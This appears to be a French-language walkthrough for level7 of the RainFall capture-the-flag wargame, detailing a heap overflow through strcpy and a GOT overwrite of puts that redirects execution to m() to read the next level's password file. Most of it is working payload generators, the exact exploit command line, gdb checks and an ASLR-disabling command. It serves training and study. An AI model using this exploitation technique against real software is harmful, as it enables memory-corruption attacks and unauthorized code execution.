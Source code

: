 # Exploit guide — level7 (RainFall)

> But : écraser le champ pointeur `puVar3[1]` via un `strcpy` overflow et rediriger l'exécution vers `m()` en patchant la GOT de `puts`.

---

## 1. Résumé rapide

* Le binaire alloue 4 chunks `malloc(8)` : deux structures (A, B) et deux petits buffers.
* Layout probable (croissant) : `struct A (8)` → `bufferA (8)` → `struct B (8)` → `bufferB (8)`.
* `strcpy(bufferA, argv[1])` est vulnérable : overflow contrôlable.
* Objectif : utiliser `argv[1]` pour écrire l'adresse de l'entrée GOT de `puts` dans `puVar3[1]`, puis utiliser `argv[2]` pour écrire l'adresse de `m()` dans cette GOT entry. Quand `puts` sera appelé, il exécutera `m()` et affichera le contenu de `/home/user/level8/.pass`.

---

## 2. Prérequis / vérifications

1. Vérifier l'architecture (ici i386, little-endian).
2. Vérifier protections : `checksec --file=./level7` ou `readelf -l ./level7`.

   * Si **Full RELRO** => GOT en R/O (méthode échoue). Si pas Full RELRO, la technique GOT overwrite fonctionne.
3. Avoir gdb et python2 disponibles localement (RainFall utilise python2).

---

## 3. Adresses observées (session fournie)

* `bufferA = 0x804a018`  (puVar1[1])
* `structB = 0x804a028`  (puVar3)
* `puVar3[1]` (champ pointer) = `0x804a028 + 4 = 0x804a02c`
* `&m = 0x080484f4`

Calcul : `0x804a02c - 0x804a018 = 0x14` => **20 bytes** de padding pour atteindre le champ pointer.

---

## 4. Méthode (GOT hijack en 2 étapes)

1. `argv[1] = 'A'*20 + pack32(GOT_puts)` → écrase `puVar3[1]` et la remplace par l'adresse de l'entrée GOT de `puts`.
2. `argv[2] = pack32(addr_m)` → la seconde `strcpy` devient `strcpy(GOT_puts, argv[2])`, écrivant `addr_m` dans la GOT de `puts`.
3. Quand le programme appellera `puts`, il exécutera `m()`.

---

## 5. Commandes utiles (copier-coller)

### Trouver l'adresse GOT de `puts`

```bash
# objdump / readelf
objdump -R ./level7 | grep puts
# ou
readelf -r ./level7 | grep -i puts
```

### Générer les payloads (exemples)

Remplace `GOT_PUTS` par l'adresse réelle trouvée ci-dessus.

```bash
# payload1 : overwrite puVar3[1] avec adresse GOT_puts
python2 - <<'PY'
import struct
GOT_PUTS = 0x08049xxx   # <-- remplace
payload1 = b"A"*20 + struct.pack("<I", GOT_PUTS)
open("arg1.bin","wb").write(payload1)
print("arg1 len=", len(payload1))
PY

# payload2 : valeur à écrire dans GOT_puts (addr de m)
python2 - <<'PY'
import struct
ADDR_M = 0x080484f4
payload2 = struct.pack("<I", ADDR_M)
open("arg2.bin","wb").write(payload2)
print("arg2 len=", len(payload2))
PY

# Lance le binaire
./level7 "$(cat arg1.bin)" "$(cat arg2.bin)"
```

### Vérifier sous GDB

```bash
gdb --args ./level7 "$(cat arg1.bin)" "$(cat arg2.bin)"
# dans gdb
break *0x080485a5   # juste après le 1er strcpy (adresse selon disas)
run
# vérifier la GOT entry
x/1wx 0xADDR_GOT_PUTS   # doit afficher 0x080484f4
```

---

## 6. Exemples observés

Tu as testé et obtenu :

```
./level7 "$(python -c 'print "A" * 20 + "\x28\x99\x04\x08"')" "$(python -c 'print "\xf4\x84\x04\x08"')"
```

Résultat affiché : contenu du `.pass` suivi d'un timestamp — preuve que l'exploit a réussi dans ton environnement.

---

## 7. Diagnostic des comportements observés

* `A*16` écrase `structB.id` (non fatal) => programme s'exécute normalement.
* `A*17` provoque un écrasement non aligné partiel du pointeur → corruption et segfault lors de la seconde `strcpy` (libc). Eviter les tailles intermédiaires non alignées.
* `A*20` écrit proprement le pointeur (offset calculé correctement).

---

## 8. Sécurité & bonnes pratiques

* Ne teste ces payloads que sur des binaires que tu possèdes ou dans un environnement CTF/VM isolé.
* Si ASLR est activé, les adresses heap changent ; désactive ASLR pour debug local (`echo 0 > /proc/sys/kernel/randomize_va_space`) ou récupère les adresses à chaque run via gdb.
* Si le binaire a Full RELRO, la GOT est en R/O et la technique de GOT overwrite échouera.

---

## 9. Conclusion

La technique GOT-overwrite via double-`strcpy` est propre et reproductible ici :

* padding 20 bytes pour atteindre `puVar3[1]` ;
* écrire l'adresse GOT de `puts` ;
* utiliser la 2ème écriture pour y déposer l'adresse `m()` ;
* laisser `puts` être appelé => exécution de `m()` et leak du `.pass`.

---